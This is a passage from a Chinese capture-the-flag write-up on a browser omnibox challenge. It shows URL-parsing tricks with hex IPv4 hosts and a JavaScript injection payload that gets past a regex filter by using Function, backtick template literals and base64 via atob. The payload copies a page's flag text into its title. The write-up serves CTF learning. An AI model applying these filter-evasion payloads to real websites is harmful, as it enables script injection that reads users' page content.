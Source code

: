 1. username包含空格，则判定为unknown：e.g. `a a@baidu.com`
2. host为ipv4地址，1 < num_ipv4_components < 4 且结尾没有slash，则判定为query：e.g. `0xaa.0xaa.0xaaaa:port`

由于实际输入是构造的地址加上`.jpg`，为了回避slash构造出如下格式的payload：`http://0xaa.0xaa.0xaaaa:1111?`，在自己的服务器上搭建一个简易flask，title写成目标字符串，拿到flag1。

#### flag2

只有将flag从网页中转移到标题上才能拿到，因此需要注入javascript代码，且不被omnibox识破。在JavaScript单词中间插入一个"\t"就可以骗过omnibox，可惜这道题限制了可用字符，只能在代码上做文章。源码中对js的判断非常简单，只要符合正则`(?i)javascript:([^;=().\"]*)`就不判为URL。代码中不包含特殊字符可以用eval+unicode或者JSF**k来处理，但不包含小括号比较麻烦，需要用匿名函数+反引号处理，payload如下：

```javascript
// 原始payload
document.title=document.querySelector('.flag').textContent
// 匿名函数结构，用反引号传参
Function`a${ payload }` ``
// 实际payload，对代码进行base64编码，结尾的注释符用于过滤bot加上的.jpg后缀
Function`a${atob`ZG9jdW1lbnQudGl0bGU9ZG9jdW1lbnQucXVlcnlTZWxlY3RvcignLmZsYWcnKS50ZXh0Q29udGVudDsg`}``` //
```

代码：[xss.ipynb](https://github.com/allons42/CTF-Writeup/blob/main/PKUgeekgame-2nd/codes/xss.ipynb)。记录一些好用的资料：

[强防御下的XSS绕过思路（一）](https://mp.weixin.qq.com/s?__biz=MzAwNTgyODU3NQ==&mid=2651068626&idx=1&sn=fa9cde874e72f7a32eb40028e2b836b9&chksm=80e60262b7918b74bc5e96023e62860b31b5859cc4474aaccb00aa8660c27e97a6da2ccaecae&scene=21#wechat_redirect)、[（二）](https://mp.weixin.qq.com/s?__biz=MzAwNTgyODU3NQ==&mid=2651073035&idx=1&sn=ef1a8238c0d9cca1fecc296cc83b7704&chksm=80e630bbb791b9ad9b566e4f8e72026858d19c1d46736baafe582117a4e209f3d44dfc714ad1&scene=21#wechat_redirect)、[（三）](https://mp.weixin.qq.com/s?__biz=MzAwNTgyODU3NQ==&mid=2651074569&idx=1&sn=d26b984454cb8d8b7f89bc8b9d97e208&chksm=80e62ab9b791a3af3cbbb1ef123a88bdd1f28ae11531a2fcadec1b33b66cf215244086aa6f46&scene=21#wechat_redirect)、[（四）](https://cn-sec.com/archives/225803.html)

![](/img/geek2/2.png)

